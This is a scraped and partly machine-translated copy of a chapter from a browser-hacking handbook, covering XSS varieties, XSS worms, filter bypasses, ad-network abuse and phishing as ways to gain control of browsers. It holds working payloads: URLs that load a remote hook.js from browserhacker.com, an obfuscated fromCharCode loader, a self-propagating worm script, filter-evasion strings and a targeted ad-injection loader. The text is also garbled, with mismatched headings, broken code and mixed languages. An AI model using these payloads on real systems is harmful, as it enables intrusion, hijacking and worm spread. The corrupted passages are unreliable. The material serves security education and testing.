# 
The Browser Hacker's Handbook 翻译为 “The 浏览器黑客手册”


start graphic  end graphic 


Questions


Proxying through the Browser

Launching Denial-of-Service Attacks

Launching Web Application Exploits


 start graphic  end graphic 

A lot of responsibility is placed upon the broad shoulders of the humble web browser. The web browser is designed to request instructions from all over the Internet, and these instructions are then executed almost without question. The browser must faithfully assemble the remotely retrieved content into a standardized digestible form and support the rich feature set available in today’s Web 2.0.

Remember, this is the same software with which you conduct your important affairs—from maintaining your social networks to online banking. This software is also expected to protect you even if you venture down the many figurative dark alleys of the Internet. It is expected to support venturing down such an alleyway while making a simultaneous secure purchase in another tab or window. Many assume their browser to be like an armored car, providing a secure and comfortable environment to observe the outside world, protecting all aspects of one’s personal interests and deflecting anything dangerous. By the end of this book, you will have the information to decide if this is a sound assumption.

The development team of this “all singing and all dancing” software has to ensure that each of its numerous nooks and crannies don’t provide an avenue for a hacker. Whether or not you consciously know it, every time you use a browser, you are trusting a team of people you have probably never met (and likely never will) to protect your important information from the attackers on the Internet.

This chapter introduces a methodology for web browser hacking that can be employed for offensive engagements. You explore the web browser’s role in the web ecosystem, including delving into the interplay between it and the web server. You also examine some browser security fundamentals that will provide a bedrock for the remaining chapters of this book.


每个软件变体都有记录的漏洞历史。

一份安全情报报告 1，总结了针对该软件的攻击，称其为对企业的最大威胁。2

你毫无疑问已经推断出我们指的是一款网页浏览器。忘记这一点，再次回到我们空白的安全画布，回顾历史事件，要不然不去质疑部署这款软件的智慧。即使没有现场数据，它的规格在安全方面看起来极其令人警觉。

然而，整个讨论在现实世界中纯属概念性。我们已经过了回头无路的地步，鉴于网站的巨大数量，没有人能够宣称网页浏览器是潜在的重大安全风险，从而决定不向每位员工提供该软件。正如你所知道的，数以十亿计的网页浏览器已被部署。不向组织员工提供浏览器几乎肯定会对其生产力产生负面影响。更不用说，这将被视为一种相当极端或倒退的措施。

网页浏览器的用途在不断增加，且根据使用场景的不同，它面临不同的黑客和安全挑战。浏览器无处不在，以至于很多非技术人员将其视为“互联网”。他们对互联网协议所携带的其他数据表现缺乏接触。在互联网时代，这使得浏览器在日常生活中占据不可争议的主导地位，因此信息技术行业也与之紧密相连。

网页浏览器几乎遍布网络——在你的用户网络区域、客户区域，甚至在安全的 DMZ 区域。别忘了，在很多情况下，用户管理员必须使用网页浏览器来管理网络硬件。制造商抓住了网页浏览器的可用性，乘风破浪，而不是重新发明轮子。

对这款浏览器软件的依赖简直是绝对的。在当今世界，更高效的做法是询问网络中哪里没有浏览器，而不是询问它在哪里。

当你触及网页时，网页也会触及你。事实上，无论你是否有意识到，你都在邀请它触及你。你让它穿透为保护网络而设置的各种安全措施，执行你仅有高层控制权的指令，只为渲染页面并在屏幕上呈现此前未知/不可信的内容。

浏览器以操作系统授予的权限运行，与任何其他用户空间程序的权限相同。这些权限等同于你，用户所分配的权限！让我们不要忘记，用户输入始终不过是当前运行程序的一系列指令——即使该程序是 Windows Explorer 或 UNIX shell。与从其他来源接收的输入相比，唯一的区别在于接收输入的程序所施加的差异！

当你将这种理解应用于网页浏览器时，其主要功能是接收并执行来自外部任意位置的指令，潜在风险便显而易见。

## 与 Web 应用的共生关系

Web 采用了在 1970 年代开发的广泛网络方法——客户端-服务器模型。3 它使用请求-响应 4 的通信方式，其中浏览器发起请求，服务器返回响应。

服务器和客户端缺一不可，它们高度依赖彼此：浏览器几乎没有内容可看，服务器也失去了服务内容的意义。这种根本性的共生关系构成了网络中无数动态、交织的丝线。

这两个关键组件之间的关系也延伸到安全态势。浏览器的安全性会影响 Web 应用，反之亦然。虽然某些控制可以孤立保护，但许多依赖于其对应方。在很多情况下，正是浏览器与应用的关系需要加固，或者从黑客的视角来看进行攻击。例如，当服务器为特定来源设置 Cookie 时，预期浏览器会遵守该指令，不向其他来源泄露（潜在敏感的）Cookie。

浏览器与 Web 应用的安全涉及上下文理解。许多情况下，讨论会聚焦于这两个组件之间的交互。利用这两个实体之间的关系在下文章节中被讨论。

进一步研究 Web 应用漏洞强烈推荐。对初学者和经验丰富的安全专业人员而言，Web Application Hacker’s Handbook（Dafydd Stuttard 和 Marcus Pinto 著，Wiley，2011 年出版），当时正处于第二版。

## 同源策略
<%
 Statement statement = connection.createStatement();
 ResultSet result = 
  statement.executeQuery("SELECT * FROM users LIMIT 10");
%>
最近注册的前 10 位用户如下:<br />
<% while(result.next()) { %>
  用户：<%=result.getString("userDisplayName")%c<%
 } %>

利用此漏洞（例如通过访问 http://browservictim.com/newuser.jsp?userdisplayname=<script%20src=http://browserhacker.com/hook.js></script>）现在，作为攻击者，你拥有了“力量倍增”。不再需要诱骗单个用户访问携带 XSS 载荷的网站，只需攻击一个网站，随后的所有访客都会执行恶意 JavaScript。

start feature 

* * *

**真实世界中的持久 XSS** 持久 XSS 的著名真实案例包括：

*   Ben Hayak 的 “Google Mail Hacking - Gmail Stored XSS – 2012!” ([`benhayak.blogspot.co.uk/2012/06/google-mail-hacking-gmail-stored-xss.html`](http://benhayak.blogspot.co.uk/2012/06/google-mail-hacking-gmail-stored-xss.html))

Level1 Hayak 发现了 Gmail 中的一个持久 XSS 漏洞。该漏洞出现在 Google 为 Gmail 新增的一个功能中，用于显示 Google+ 好友的信息。如果在 Google+ 个人资料的某个组件中加入恶意 JavaScript（满足特定条件），你的 Gmail 好友会执行你的代码。/Level1

*   XSSed 的 “Another eBay permanent XSS” ([`www.xssed.com/news/131/Another_Ebay_permanent_XSS/`](http://www.xssed.com/news/131/Another_Ebay_permanent_XSS/))

Level1 eBay 并未免于 web 漏洞的困扰。安全研究员 Shubham Upadhyay 发现可以在 eBay 上创建一个新列表，并包含额外的 JavaScript 载荷。这意味着任何不慎访问该列表的用户都会在 https://ebay.com 的域内执行该持久 XSS。

* * *

### DOM 跨站脚本 (DOM XSS)

文档对象模型 (DOM) XSS 是一种纯客户端的 XSS 形式，不依赖于 Web 应用服务器端对用户输入的不安全处理。它与反射型和持久型 XSS 的区别在于，漏洞仅存在于客户端代码（如 JavaScript）中。

考虑以下场景。某组织想通过 URL 参数设置欢迎信息，但开发者在客户端实现了该功能，而不是在服务器端完成。他们通过 URL 中的内容动态修改页面，代码如下：

``` 
document.write(document.location.href.substr(
  document.location.href.search(
    /#welcomemessage/i)+16,document.location.href.length))
```

这段代码会从 URL 中 `#welcomemessage=` 之后的所有字符提取出来，并写入当前页面的文档。例如，假设 URL 为 http://browservictim.com/homepage.html#welcomemessage=Hiya，页面加载时会把 “Hiya” 插入到文档体中。

如果在同一 URL 中加入恶意代码，例如 http://browservictim.com/homepage.html#welcomemessage=<script>document.location='http://browserhacker.com'</script>，这段 JavaScript 会被写入 DOM，从而把浏览器重定向到 http://browserhacker.com。

由于其客户端特性，DOM XSS 攻击往往对服务器不可见，使用片段标识符（# 之后的内容）可以在 URL 中加入数据，这些数据通常不会被发送到 Web 应用服务器。

当攻击字符串位于 `#` 之后的数据时，恶意数据根本不会离开浏览器。这对依赖 Web 应用防火墙（WAF）的应用有影响——恶意请求部分可能根本不会被 WAF 看到。

另一个易受影响的代码示例：

``` 
function getId(id){
  console.log('id: ' + id);
}

var url = window.location.href;
var pos = url.indexOf("id=")+3;
var len = url.length;
var id = url.substring(pos,len);
eval('getId(' + id.toString() + ')');
```

这段代码可以通过在 `id` 参数中注入恶意代码来利用。例如，尝试加载并执行远程 JavaScript 的 payload：

http://browservictim.com/page.html?id=1');s=document.createElement('script');s.src='http://browserhacker.com/hook.js';document.getElementsByTagName('head')\[0\].appendChild(s);//.

由于前面的 `eval` 调用会在单引号结束前终止，这段 payload 无法执行。为了绕过此限制，可以使用 JavaScript 的 `String.fromCharCode()` 方法将字符串隐藏，生成如下 URL：

[`browservictim.com/page.html?id=1'};eval(String.fromCharCode(115,61,100,111,99,117,109,101,116,46,99,114,101,97,116,101,6E,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,115,46,115,114,99,61,39,104,116,112,58,47,47,98,114,111,119,115,101,114,104,97,99,107,101,114,46,99,111,109,47,104,111,111,107,46,106,115,39,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,104,101,97,100,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59))//`](http://browservictim.com/page.html?id=1'};eval\(String.fromCharCode\(115,61,100,111,99,117,109,101,116,46,99,114,101,97,116,101,6E,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,115,46,115,114,99,61,39,104,116,112,58,47,47,98,114,111,119,115,101,114,104,97,99,107,101,114,46,99,111,109,47,104,111,111,107,46,106,115,39,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,104,101,97,100,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59\)\)//)


The preceding example highlights an interesting issue with exploiting these types of XSS flaws. The exploit first has to be delivered to your unsuspecting target without alerting suspicion. In the previous examples, a user can be tricked into visiting the malicious URL through any number of means, including an e‑mail, a social networking status update or an instant message.

Often these URLs are wrapped up by a URL‑shortening service such as `http://bit.ly` or `http://goo.gl` to obfuscate the true, malicious nature of the URL. You will delve into these methods of delivery later in this chapter in the Using Social Engineering Attacks section.

 start feature 

* * *

**Real-World DOM XSS** Some notable real-world examples of DOM‑based XSS include: 

*   Stefano Di Paola’s “DOM XSS on Google Plus One Button” `http://blog.mindedsecurity.com/2012/11/dom-xss-on-google-plus-one-button.html`

Level1 Stefano Di Paola discovered a Cross‑origin Resource sharing (CORS) flaw within the JavaScript of Google’s +1 button. This vulnerability would have allowed you to execute instructions within Google’s origin. /Level1 

*   Shahin Ramezany’s “Yahoo Mail DOM‑XSS” (`http://abysssec.com/files/Yahoo!_DOMSDAY.pdf`)

Level1 Unfortunately for Yahoo, one of its commonly used ad‑based subdomains was using an out‑of‑date JavaScript that exposed a DOM XSS flaw. This third‑party script had been updated to address an unprotected `eval()` function call, but at the time of the research, Yahoo was still using a vulnerable version. /Level1 

* * *

 end feature 

### Universal Cross‑site Scripting

A client‑side XSS vulnerability, known as Universal XSS, is a different method of executing malicious JavaScript in a browser. In some instances, it isn’t even constrained by the SOP.

 start feature 

* * *

**Real-World Universal XSS** An interesting real‑world example of Universal XSS: Level1 In 2009, Roi Saltzman discovered how Internet Explorer was able to load arbitrary URIs with Chrome through the use of the ChromeHTML URL handler. 

```
var sneaky = ‘setTimeout("alert(document.cookie);", 4000;
  document.location.assign("http://www.gmail.com");’;
document.location =
  ‘chromehtml:"80%20javascript:document.write(sneaky)"’;
```

This effectively allowed an attacker, given the right conditions, to execute any JavaScript they wanted against a target on almost any origin.5 For example, the preceding JavaScript would set the current location to a Chrome frame, with a timeout that would execute after Gmail had been loaded. /Level1 

* * *

 end feature 

This attack usually takes a step up the functionality chain and abuses flaws in either the browser itself, its extensions or its plugins. These vulnerabilities are explored in more detail in Chapter 7.

### XSS Viruses

In 2005, research by Wade Alcorn6 demonstrated the potential of virus‑like distribution of malicious XSS code. This self‑propagation of code could occur if certain conditions between a vulnerable web application and browser were in place.

The research discussed a scenario whereby a Stored XSS vulnerability is exploited to cause subsequent visitors (to the infected origin) to execute malicious JavaScript. As a result, the target’s browser attempted to perform an XSS exploit against other web applications. The XSS payload used in the example was:

```
<iframe name="iframex" id="iframex" src="hidden" style="display:none">
</iframe>
<script SRC="http://browserhacker.com/xssv.js"></script>
```

The contents of the `xssv.js` were:

```
function loadIframe(iframeName, url) {
  if ( window.frames[iframeName] ) {
    window.frames[iframeName].location = url;   
    return false;
  }
  else return true;
}

function do_request() {
  var ip = get_random_ip();
  var exploit_string = '<iframe name="iframe2" id="iframe2" ' +
    'src="hidden" style="display:none"></iframe> ' +
    '<script src="http://browserhacker.com/xssv.js"></script>';

  loadIframe('iframe2', 
    "http://" + ip + "/index.php?param=" + exploit_string);
}

function get_random()
{
  var ranNum= Math.round(Math.random()*255);
  return ranNum;
}

function get_random_ip()
{
  return "10.0.0."+get_random();
}

setInterval("do_request()", 10000);
```

You can see in this code that the JavaScript executes `do_request()`, which sends the XSS attack to a random host using the `loadIframe()` method, the next host being targeted randomly by the `get_random_ip()` and `get_random()` functions. The XSS payload then begins the recursive nature of the attack against anyone else that subsequently visits the modified page.

The implication for browsers due to this automatic proliferation of malicious JavaScript is fairly profound. In Alcorn’s demonstration, the execution does not rely on any user interaction, apart from visiting the page in the first place. The impacted user’s browser will simply execute the commands and carry on.

The payload itself performed self‑propagation and then terminated. However, as you will learn in the following chapters, the number of malicious activities that can be performed from within a browser are countless.

#### Samy

It wasn’t long before Alcorn’s hypothetical attack became reality through Samy Kamkar and his infamous “Samy Worm” that impacted more than one million MySpace profiles. Many security professionals believe that the infection was the fastest spreading ever seen in the wild, with all those million profiles being impacted within the first 24 hours.

It’s important to note that comparing traditional computer virus propagation to XSS virus propagation is not a black‑and‑white affair. This is especially the case because the infection doesn’t strictly leave conventional executables on a victim’s browser.

The Samy Worm used a number of techniques to bypass MySpace’s preventative controls. At a high level, these included:

*   Executing the initial JavaScript within a `div`’s `background:url` parameter, which was specific to IE versions 5 and 6:

    ```
    <div style="background:url('javascript:alert(1)')">
    ```

*   Bypassing single‑quote and double‑quote escaping issues within JavaScript by positioning the code elsewhere and launching the instructions from a style attribute:

    ```
    <div
     id="mycode" expr="alert('hah!')"
     style="background:url('javascript:eval(document.all.mycode.expr)')"
    >
    ```

*   Bypassing the filtering of the word `javascript` by inserting a newline character (`\n`)

*   Inserting double quotes through the `String.fromCharCode()` method

*   Numerous other keyword blacklist bypasses through the use of the `eval()` method:

    ```
    eval('xmlhttp.onread' + 'ystatechange = callback');
    ```

To review the full code and a walkthrough, check out: `http://namb.la/popular/tech.html`.

#### Jikto

In 2007, only a couple of years after the initial XSS propagation research, Hoffman demonstrated Jikto at ShmooCon. Jikto was a tool to demonstrate the impact of unmitigated XSS flaws, and what happens when you execute attacker‑controlled code within a browser.

Advancing the methodology from earlier XSS self‑propagation research and code, Jikto was designed to kick off a silent JavaScript loop that would either try to self‑propagate, similar to Samy, or poll a central server for further commands. Although the code was constructed as an in‑house demonstration, it was leaked and slowly found its way onto the broader Internet.


一个在 Jikto 中更有趣的增强功能是它如何绕过 SOP。它通过将 Jikto 代码和目标源内容加载到同源（通过代理或跨域桥梁）来实现这一点。最初使用 Google Translate 来代理单独请求，但 Jikto 可以修改为使用其他站点作为代理。想要获取 Jikto 代码的拷贝，请访问 [`https://browserhacker.com`](https://browserhacker.com)。

#### Diminutive XSS Worm Replication Contest

到 2008 年，XSS 蠕虫和病毒的概念在安全社区中已经被充分理解和讨论。从此开始，只需优化并找到构建这些自复制负载的最有效方式即可。

罗伯特·汉森（Robert Hansen）于 20087 年的 Diminutive XSS Worm Replication Contest 就是一个典型的努力。其思路是：在尽可能少的字节数内，构建一个自复制的 HTML 或 JavaScript 片段，该片段会执行标准的 alert 对话框，并通过 POST 请求进行复制。

吉尔吉奥·马奥（Giorgio Maone）和埃杜亚多·韦拉（Eduardo Vela）凭借非常相似的方案获胜。他们成功构建了一个 161 字节的负载，该负载通过 POST 请求将自身复制到 PHP 文件中。它在传播后不会增大体积，不需要用户交互，甚至不使用任何 Cookie 数据：

```
<form>
 <input name="content">
  '+
   innerHTML.slice(action=(method='post')+
   '.php',155)))">
```

和

```
<form>
 <INPUT name="content">
  '+
   innerHTML.slice(alert('XSS'),155))">
```

你可以清楚地看到，如何利用这个常见的 Web 应用缺陷来嵌入最初的恶意逻辑。虽然我们已经尽力总结 XSS 的各种形式，但要记住，像大多数 Web 安全领域的漏洞一样，这些仍在不断演进。

DOM XSS 和通用 XSS 是后期加入的 XSS 类别的完美例子。与此同时，随着 Internet、HTML 和浏览器功能的持续增强，我们有信心 XSS 将继续成为一种在奇怪而奇妙的方式中执行内容的有效手段。

### Bypassing XSS Controls

下面的章节将介绍如何绕过 XSS 控制。随后，在第 3 章的“规避检测”部分，你将进一步探索用于混淆恶意代码的技术。

大多数之前的 XSS 示例假设攻击者可以直接提交恶意 JavaScript 而不受限制。事实上，这并非总是如此。通常会有多种阻碍阻止你的攻击代码在目标浏览器中执行。

这些阻碍形式多样，包括注入上下文的限制、浏览器之间的语言差异、浏览器内置的安全控制，以及 Web 应用的防护措施。如果你发现自己需要费尽周折才能成功利用 XSS，别感到惊讶！

#### Bypassing Browser XSS Defenses

除了可能出现的 JavaScript 执行问题外，现代浏览器中的 XSS 控制也是你面临的另一重大客户端障碍。这些防护措施旨在降低恶意 XSS 负载在目标浏览器中执行的可能性。防护措施包括 Chrome 和 Safari 的 XSS 审计器、Internet Explorer 的 XSS 过滤器以及 Firefox 的 NoScript 扩展。

一种依赖浏览器优化对输入进行变异的 XSS 绕过技术被称为变异式跨站脚本（mXSS）。这种方法只有在浏览器对你精心构造的输入进行优化时才有效，即开发者使用 innerHTML 等方式解析你的输入。

关键点是：你的输入无论如何都会被优化。下面的代码示例演示了 mXSS 的工作原理：

```
// attacker input to innerHTML


// browser output
 
```

此示例突出了反引号（`）字符如何用于绕过 Internet Explorer 的 XSS 过滤器。浏览器的优化使得 onload 属性的值被执行。

#### Bypassing Server XSS Defenses

XSS 过滤并非仅限于客户端，事实上，服务器端的过滤自这些漏洞被发现以来一直是标准的应对措施。理想情况下，Web 应用的 XSS 防护既包括输入过滤也包括输出编码。

一个绕过示例出现在 Microsoft 的 .NET 框架中。它提供了多种开发者可用的方法来降低恶意负载被服务器解析的可能性，包括 RequestValidator 类。早期的这些方法并不完全有效。例如，提交以下任一负载即可绕过过滤：

```
<~/XSS/*-*/STYLE=xss:e/**/xpression(alert(6))>
<%tag style="xss:expression(alert(6))">
```

这两个示例都利用了 Microsoft 动态属性（Dynamic Properties）中的 expression() 功能。该功能用于在 CSS 中提供动态属性。

除了在源代码层面修复这些问题，安全供应商还快速提供了在脆弱应用之外的自动化修复方法，主要体现在 Web Application Firewall（WAF）或专门软件过滤器上，这些过滤器在应用层面执行相同的任务。无论技术组合如何，目标与客户端防护相同：降低攻击者利用 Web 安全漏洞的可能性。

该技术如此有效，以至于所有攻击者都回家，WAF 技术被视为解决所有 Web 漏洞的万能药。当然，圣诞老人也是真实的！实际上，当面对挑战时，黑客们会挺身而出。9 正如绕过客户端控制一样，类似的负载和手段也被用于服务器端控制。

WAF（及相关）技术常用的一种过滤技巧是检测出现上下文不符或可疑的括号。Gareth Heyes 2012 年的技术 10 是一个很好的绕过示例，它通过为 window DOM 对象附加错误处理器（不使用括号）并立即抛出异常来实现：

```
onerror=alert;throw 1;
onerror=eval;throw'=alert\x281\x29';
```

这两个示例中均不包含可疑的括号，但它们的注入点必须位于 HTML 元素的属性中。

 start feature 

* * *

**XSS Cheat Sheets** 是的，我们承认，如果你不是开发人员或 JavaScript 黑客，上面的示例可能让你感到困惑，双手抓起刚从头发上拔掉的头发！别担心。在许多情况下，期望攻击者或测试人员记住所有绕过 XSS 过滤的可能方法是不合理的。其中最早且最著名的 XSS 速查表是 Robert Hansen（RSnake）的 XSS Cheat Sheet，已捐赠给 OWASP 并可在 [`https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) 找到。随着 HTML5 的新特性不断引入，新的可利用的浏览器特性和属性也随之发现。Mario Heiderich 发布了 HTML5 安全速查表，可在 [`http://html5sec.org/`](http://html5sec.org/) 查看。除了这些速查表外，还有无数种组合方式可以将这些负载进行编码、组合和混合。帮助你完成这些操作的方法包括：


-   [Burp Suite]的解码功能

-   [Gareth Hayes]的 Hackvertor：[`hackvertor.co.uk/public`](https://hackvertor.co.uk/public)

-   [Mario Heiderich]的字符编码器：[`yehg.net/encoding/`](http://yehg.net/encoding/)

* * *

end feature 

## 使用受损的 Web 应用程序

攻击者获取浏览器访问权限的常见方法是通过未经授权访问 Web 应用程序。获取访问权限后，攻击者可能会修改 Web 服务器返回的内容，以包含恶意逻辑。

Web 应用程序的利用可能涉及多种攻击，包括利用 SQL 注入或远程代码执行漏洞。另一种获取 Web 应用程序控制权的方法是直接未经授权访问管理服务，例如 FTP、SFTP 或 SSH。此类攻击超出了本书的范围。

一旦获得访问权限，攻击者可以向目标 Web 应用程序中插入任意内容。这些内容可能会在访问该 Web 应用程序的任何浏览器中执行。这使得在目标浏览器中插入指令以获取初始控制成为理想的位置。

控制拥有大量访客的合法 Web 应用程序将提供大量目标浏览器。目标浏览器越多，成功利用的可能性就越大。当然，你的能力受到参与范围的限制。

## 使用广告网络

在线广告网络在互联网上散布的各种网站上显示横幅广告。你可能从未停下来思考过广告实际包含什么内容。简而言之，最重要的一点是广告运行你提供的指令。现在，你感兴趣的使用案例就在这里了！

你可以使用广告网络让初始控制代码在许多浏览器中运行。你需要注册并完成所有他们的流程。完成后，只需支付小额费用，你就可以掌握众多浏览器。请记住，不会单独针对某个浏览器，因为初始代码的执行会在多个来源之间随机发生。

对于专业项目，很少会寻找随机的浏览器集合。你更可能希望针对来自单一或多个 IP 地址的浏览器请求。这可以通过配置像 BeEF（Browser Exploitation Framework）这样的框架来实现，后续章节会更深入地介绍。

也可能出现想要针对安全的源的情况，即除认证页面外使用广告提供商的安全方式。你可以注册该广告提供商，并使用以下代码让你的指令仅在目标源中执行。

``` 
if (document.location.host.indexOf("browservictim.com") >= 0)
{
        var scr = document.createElement('script')
        scr.setAttribute('src','https://browserhacker.com/hook.js');
        document.getElementsByTagName('body').item(0).appendChild(scr);
}
```

使用上述代码，你可以检查源，如果是正确的目标，则动态加载你的脚本。无需查看源代码，此脚本在其他域名上应保持不可见。Jeremiah Grossman 和 Matt Johansen 从 WhiteHat Security 于 2013 年 11 月在 BlackHat 上展示了类似的攻击。他们的研究涉及购买合法的广告，其中包含了他们控制的嵌入式 JavaScript。

## 使用社交工程攻击

社交工程是一系列旨在诱使个人执行操作或泄露信息的方法。安全链中的“人”环节一直被认为是最弱的环节。自社交互动伊始，攻击者就一直在利用这一点。

历史上，社交工程可能被视为欺诈或自信骗局的一种形式。如今，该术语与数字领域更直接相关，往往不依赖面对面与受害者的互动。

金融行业是这类攻击的显著受害者。欺诈者会设置数字诈骗，试图骗取在线银行凭证，然后转移被盗资金。常见的社交工程手段是结合垃圾邮件电子邮件和钓鱼网站。

* * *

**SPAM and Phishing** 在本书语境中，SPAM 和钓鱼有时会被混用。我们将 SPAM 定义为未经请求的电子邮件，通常以批量形式发送，广告真实（或有时是虚假）商品和服务。钓鱼是直接尝试获取信息（通常是用户名和密码），然后在暗网市场出售或直接用于欺诈受害者。钓鱼包含多个组成部分，包括假网站、假电子邮件和有时是假即时消息。钓鱼电子邮件通常使用与垃圾邮件相同的手段诱骗受害者访问其假网站。Spear phishing 是一种类似于常规钓鱼的技术，但攻击者会缩小目标范围，专注于较小的、特定的受害者群体。这使他们能够收集更多背景信息，并更有效地定制诱骗。请记住 2011 年的 RSA  breach 破坏事件？初始阶段是两次针对不同员工群体的独立 spear phishing 运动。电子邮件附件包含了针对 Microsoft Excel 的零日漏洞。你可以阅读更多内容，例如 [`http://blogs.rsa.com/anatomy-of-an-attack/`](http://blogs.rsa.com/anatomy-of-an-attack/) 或 [`http://www.theregister.co.uk/2011/03/18/rsa_breach_leaks_securid_data/`](http://www.theregister.co.uk/2011/03/18/rsa_breach_leaks_securid_data/)。

* * *

end feature 

Leveraging phishing techniques to establish a beachhead on a target organization’s network works in much the same way as the scammers’ mode of operation. However, instead of trying to just acquire credentials or other information, you will attempt to inject your instructions into the target’s browser.

The following sections discuss a few common methods in detail. They demonstrate how to use these attacks with the ultimate aim of coercing a target’s browser into executing your payloads.

### Phishing Attacks

As we have discussed, phishing attacks are one method traditionally executed by fraudsters to acquire user credentials for online services. Example targets of phishing attacks include online banking portals, PayPal, eBay, and even tax services. Phishing attacks can take many forms, including:

* E-mail phishing—An e-mail is sent to multiple recipients, asking the victim to respond to the e-mail with information valuable to the attacker. This technique is also used to distribute malware in the form of malicious links or attachments. An example phishing e-mail is shown in `Figure 2-1`.

* Website phishing—A fake website is hosted online, impersonating a legitimate website. To trick users into visiting the site, the scammers employ supplementary techniques such as phishing e-mails, instant messages, SMS messages, or even voice calls.

* Spear phishing—Often employs a fraudulent website as well, but the lures are customized for a small, targeted audience.

* Whaling—A term coined for spear phishing that is targeting high profile or senior executives.

 start figure 

**Figure 2-1:** Phishing e-mail example12



 end figure 

In the context of targeting browsers, your primary goal is to execute your code within the target browser. Therefore, pure e-mail phishing and other non-browser forms of social engineering won’t be discussed.

#### Phase 1: The Website


-   [构建假网站](https://wiki.example.org/feynmans_learning_method)是网络钓鱼攻击的第一阶段，其中包含恶意代码。根据网络钓鱼活动的范围，假网站可能是完全虚构的，也可能冒充合法网站。例如，如果你的目标是一家能源公司，你可能不想构建一个假的在线银行门户网站。相反，你可以创建一套符合能源行业兴趣的自定义网站，比如一个假的能源监管机构。

-   你可以选择构建单页，也可以构建多页网站。如果想降低目标用户发现网站“可疑”的可能性，建议提供比单页更多的内容。否则，单页通常足以在浏览器中执行初始 JavaScript 载荷。

-   一旦确定了假网站的内容，你可以使用以下几种方法构建所需的 HTML 及相关文件：

    * 从零开始构建网站——这对针对性钓鱼攻击可能有效，但耗时较长。

